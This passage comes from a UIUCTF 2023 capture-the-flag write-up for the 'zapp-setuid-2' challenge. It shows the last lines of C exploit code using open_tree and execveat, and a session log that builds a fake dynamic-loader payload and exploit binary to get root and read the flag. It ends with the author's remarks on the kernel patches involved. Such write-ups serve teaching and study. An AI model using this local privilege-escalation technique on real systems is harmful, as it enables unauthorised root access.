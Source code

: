 ```C
        if (fd < 0)
                error(1, errno, "open_tree");

        syscall(SYS_execveat, fd, "home/user/exe", NULL, NULL, 0);
        error(1, errno, "execveat");
}
```

```
$ socat file:$(tty),raw,echo=0 tcp:zapp-setuid-2.chal.uiuc.tf:1337
== proof-of-work: disabled ==
+ mount -n -t proc -o nosuid,noexec,nodev proc /proc/
+ mount -n -o remount,rw /
+ mkdir -p /dev /sys /etc
+ mount -n -t sysfs -o nosuid,noexec,nodev sys /sys
+ mount -n -t tmpfs -o mode=1777 tmpfs /tmp
+ mount -n -t 9p flag -o nosuid,noexec,nodev,version=9p2000.L,trans=virtio,msize=104857600,access=0 /mnt
+ cd /home/user
+ exec setsid bash -l
uiuctf-2023:/home/user# ./init_chal zapp-setuid-2
+ case "$1" in
+ rm -r virophage virophage.c am-i-not-root am-i-not-root.c
+ ln -s /usr/lib/zapps zapps
+ sysctl -w fs.protected_hardlinks=1
fs.protected_hardlinks = 1
uiuctf-2023:/home/user# exec setpriv --init-groups --reset-env --reuid user --regid user bash -l
uiuctf-2023:~$ vi payload.S
uiuctf-2023:~$ gcc -o ld-linux-x86-64.so.2 -static-pie -nostartfiles -Wl,--gc-sections payload.S
uiuctf-2023:~$ vi exploit.c
uiuctf-2023:~$ gcc -o exploit exploit.c
uiuctf-2023:~$ ./exploit
/home/user # cat /mnt/flag
uiuctf{is-kernel-being-overly-cautious-5ba2e5c4}
```

The flag is a reference to how many additional patches I needed to make this
work. Some patches are for protections I am unsure why they are there in the
first place. Ideally I have less patches so they aren't as much of hints.
